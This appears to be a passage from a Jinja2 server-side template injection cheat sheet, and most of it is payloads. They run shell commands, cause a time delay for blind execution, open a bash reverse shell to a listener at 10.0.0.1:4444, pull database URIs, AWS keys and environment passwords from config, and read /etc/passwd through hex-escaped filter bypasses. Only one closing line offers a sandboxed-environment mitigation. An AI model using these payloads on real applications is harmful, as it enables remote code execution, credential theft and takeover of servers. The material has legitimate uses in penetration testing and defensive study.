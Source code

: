 ### 1. Run Command with Output
```jinja2
{{ ... |attr("popen")("whoami; pwd; ls -la")|attr("read")() }}
```

### 2. Blind Command Execution (Time Delay)
```jinja2
{{ ... |attr("system")("sleep 10") }}
```

### 3. Reverse Shell (Bash)
```jinja2
{{ ... |attr("popen")("bash -c 'bash -i >& /dev/tcp/10.0.0.1/4444 0>&1'")|attr("read")() }}
```

---

## 🔓 Sensitive Data Extraction

### Database URI
```jinja2
{{ config.SQLALCHEMY_DATABASE_URI }}
```

### AWS Secrets
```jinja2
{{ config.AWS_ACCESS_KEY_ID }}
{{ config.AWS_SECRET_ACCESS_KEY }}
```

### Environment Variables
```jinja2
{{ ... |attr("getenv")("DB_PASSWORD") }}
```

### File Reading
```jinja2
{{ ... |attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("open")("/etc/passwd")|attr("read")() }}
```

---

## 🛡️ Mitigation Strategies

### 1. Template Sanitization
```python
from jinja2.sandbox import SandboxedEnvironment
env = SandboxedEnvironment(autoescape=True)
```

---